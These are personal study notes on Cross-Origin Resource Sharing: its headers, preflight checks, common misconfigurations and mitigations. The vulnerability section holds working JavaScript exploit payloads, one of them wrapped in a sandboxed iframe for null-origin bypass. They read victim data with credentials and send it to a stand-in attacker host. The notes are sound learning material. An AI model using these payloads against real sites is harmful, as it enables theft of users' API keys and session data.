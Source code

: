 
### General Notes

Browser mechanism that enables controlled access to resources located outside of a domain, and adds flexibility to [[Same Origin Policy (SOP)]].
- The CORS [[Protocol]] uses [[HTTP#Header]]s that define trusted origins, and properties for each with given [[Authentication]] and [[Access Control]] permissions.
- These headers are used between the browser and the web site located in a different origin. (cross-origin).

CORS relaxes the [[Same Origin Policy (SOP)]] for [[HTTP]] requests between websites with different domains through the use of HTTP headers.

> CORS doesn't protect against [[CSRF]].

---

### `Access-Control-Allow-Origin` (ACAO) response header

This header is returned by a server when a website requests resources across domains with the `Origin` header.
- The browser compares values in this header with the requesting web `Origin` header and gives permissions.

The `Access-Control-Allow-Origin` header can have values of:
* Multiple origins. (No browser supports this).
* `null`
* `*`

###### Transferring Cookies, Certificates, and Credentials

CORS allows for sharing credentials or authorization [[Cookies]] through the response header `Access-Control-Allow-Credentials` (ACAC).
- If it is set to true in the response, then the cookies being sent in the request will be allowed to be read.

 >Using the header `Access-Control-Allow-Origin` set to the value `*` cannot be combined with `Access-Control-Allow-Credentials` set to `true`.

###### Pre-Flight Checks


When a cross-domain request uses a non standard [[HTTP]] method or headers, this request is preceded by one with the `OPTIONS` method, and an initial check is made regarding the permitted methods and headers.
- The server returns allowed methods and the trusted origin.
- A cross-domain request will be first preceded by `OPTIONS` request with the method and headers used of this request.
- The server responds with the allowed origin, the allowed methods, the allowed verbs, and the caching time of the preflight response.

> Used to protect legacy resources.

---

### CORS Vulnerabilities

Some applications simply read the `origin` header from the incoming request, and then respond with the ACAO header set to the value in that `origin` header.
- They can also respond with the ACAC header to allow including [[Cookies]].

- If a [[CSRF]] token or [[Application Programming Interface (API)]] key is included in the response, use this payload.
```JavaScript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true;
req.send(); 

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
```

###### Error parsing Origin headers

Supporting multiple origins usually works by having a whitelist.
- A request with the origin header has its value compared against whitelist, if it is found, then the ACAO header is added to the response.

This matching with the whitelist can be played around by appending to the end or the beginning, or by using regular expressions.
* The beginning by testing if it allows all subdomains.
* To the end if it simply checks the required origin is present.

> Sometimes the value `null` is whitelisted.

Browsers can send `null` in the origin header in:
* Cross-origin redirects.
* Requests from serialized data.
* Requests using `file:` [[Protocol]].
* Sandboxed cross-origin requests.

If the server responds with ACAO with value `null`, then we can bypass it by generating a cross-origin request containing `null` in the origin header satisfying the whitelist.

- Adding the payload we have in an `iframe` sandbox will appear as if it is coming from the null origin.
```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script> var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); 
req.withCredentials = true; 
req.send(); 
	   
function reqListener() { 
	location='malicious-website.com/log?key='+this.responseText; 
}; </script>">
</iframe>
```

###### Exploiting [[Cross Site Scripting (XSS)]] via CORS

If a website trusts an origin that is vulnerable to [[Cross Site Scripting (XSS)]], attacker can inject JavaScript that uses CORS.

- Given the following request:
```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

- If the server responds with:
```
HTTP/1.1 200 OK Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com Access-Control-Allow-Credentials: true
```

- Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key, using a URL like:
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
> `cors-stuff` is the CORS payload that issues a request above. [[Cross-Origin Resource Sharing (CORS)#CORS Vulnerabilities]].

###### Breaking [[Transport Layer Security (TLS)]]

Application that has [[HTTPS]] whitelists a subdomain using [[HTTP]].
- Attackers that can intercept traffic between these two locations can compromise the victims interaction with the application.

> Methodology: [(TLS)](https://portswigger.net/web-security/cors#breaking-tls-with-poorly-configured-cors).

---
### Preventing CORS

* Proper configuration of cross-originr requests with the properly specified ACAO headers.
* Only allow truster websites with the hedaers.
* Avoid whitelisting the `null` value in the ACAO header.
* Avoid wildcards in internal networks. (`*`).
* Not a replacement for server-side protection.

---
